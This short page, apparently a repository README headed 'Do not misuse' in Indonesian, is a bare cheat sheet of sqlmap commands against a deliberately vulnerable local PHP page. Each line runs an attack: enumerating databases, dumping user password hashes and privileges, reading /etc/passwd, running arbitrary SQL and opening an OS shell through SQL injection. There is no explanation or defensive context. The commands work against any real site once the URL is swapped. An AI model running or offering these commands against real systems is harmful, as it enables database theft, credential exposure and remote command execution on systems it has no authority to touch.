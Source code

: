 <h1>Jangan Disalah Gunakan</h1>
command :
</br>
python ./sqlmap.py -u "http://localhost/weak.php?id=10" --dbs
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" -b
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --users --passwords --privileges --roles --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --current-user --is-dba --current-db --hostname --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --file-read=/etc/passwd --threads=10
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --sql-query="select now();"
</br>
python sqlmap.py -u "http://localhost/weak.php?id=10" --os-shell
